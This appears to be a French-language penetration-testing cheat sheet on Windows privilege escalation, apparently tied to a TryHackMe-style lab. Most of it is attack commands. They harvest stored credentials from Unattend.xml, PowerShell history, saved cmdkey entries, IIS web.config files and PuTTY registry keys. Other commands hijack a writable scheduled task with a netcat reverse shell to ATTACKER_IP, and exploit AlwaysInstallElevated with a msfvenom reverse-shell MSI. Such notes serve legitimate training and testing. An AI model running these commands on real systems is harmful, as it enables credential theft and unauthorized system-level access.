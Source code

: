# Windows

Quelques sources possibles d'escalation de privilèges sous windows

### Unattended Windows Installations

Avec MDT:
```
    C:\Unattend.xml
    C:\Windows\Panther\Unattend.xml
    C:\Windows\Panther\Unattend\Unattend.xml
    C:\Windows\system32\sysprep.inf
    C:\Windows\system32\sysprep\sysprep.xml
```

Peut contenir :

```
<Credentials>
    <Username>Administrator</Username>
    <Domain>domain.local</Domain>
    <Password>MyPassword123</Password>
</Credentials>
```

### Powershell History

cmd.exe
```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

powershell.exe
```
cat $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

### Saved Windows Credentials

```
cmdkey /list
```

En cas de trouvaille interressante 
```
runas /savecred /user:admin cmd.exe
```

### IIS Configuration

web.config
```
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```
```
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

### PuTTY

```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

# Autres Techniques

### Planificateur de tâches
Pour lister les tâches planifiées : `schtasks` 

```
schtasks /query /tn vulntask /fo list /v
```
```
C:\> schtasks /query /tn vulntask /fo list /v
Folder: \
HostName:                             THM-PC1
TaskName:                             \vulntask
Task To Run:                          C:\tasks\schtask.bat
Run As User:                          taskusr1
```
Pour obtenir des infos sur `Task To Run`

```
icacls c:\tasks\schtask.bat
```
```
C:\> icacls c:\tasks\schtask.bat
C:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
```

#### Exploitation

Détectable par les antivirus !
```
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```

#### Exécution manuelle

```
schtasks /run /tn vulntask
```

### AlwaysInstallElevated

Exploitation de .msi :
Vérifier si ces deux sont présents
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

si oui
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.147.119 LPORT=LOCAL_PORT -f msi -o malicious.msi
```
```
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```
